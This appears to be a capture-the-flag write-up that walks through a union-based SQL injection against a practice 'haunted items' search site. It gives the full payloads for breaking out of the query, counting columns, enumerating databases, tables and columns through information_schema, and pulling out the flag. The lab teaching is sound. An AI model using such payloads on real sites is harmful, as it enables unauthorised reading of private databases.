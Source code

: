 This is a basic site designed to demonstrate SQL injection fundamentals. It features a form where we can search for "haunted items", displaying both the executed query and its output:

![Search Interface](./images/image.png)

This sends a GET request to `/search`:

![GET Request](./images/image(1).png)

This request executes the SQL query and returns the output. Examining the query closely reveals that our input is placed between `'%%'`, allowing us to insert `%'` to close the string and comment out the rest of the query using: `%' -- -`

This gives us control over the query, enabling data extraction beyond what should be accessible through a Union-based SQL injection attack. The query output shows 5 columns, so we can test an injection like: `%'+union+select+1,2,3,4,5+--+-`

![Union Test](./images/image(2).png)

Our values are reflected in the response, confirming the injection works. Now we can extract database names:
`%'+union+select+schema_name,2,3,4,5+from+information_schema.schemata--+-`

![Database Names](./images/image(3).png)

Three databases are present, but `halloween_invetory` appears to be the relevant one. Let's retrieve its tables: `%'+union+select+table_name,2,3,4,5+from+information_schema.tables+where+table_schema='halloween_invetory'--+-`

![Tables List](./images/image(4).png)

The `flag` table is visible. Now let's examine its columns: `%'+union+select+column_name,2,3,4,5+from+information_schema.columns+where+table_schema='halloween_invetory'+and+table_name='flag'--+-`

![Column Names](./images/image(5).png)

The column is named `flag`. With this information, we can extract the flag: `%'+union+select+flag,2,3,4,5+from+flag--+-`

![Flag Retrieved](./images/image(6).png)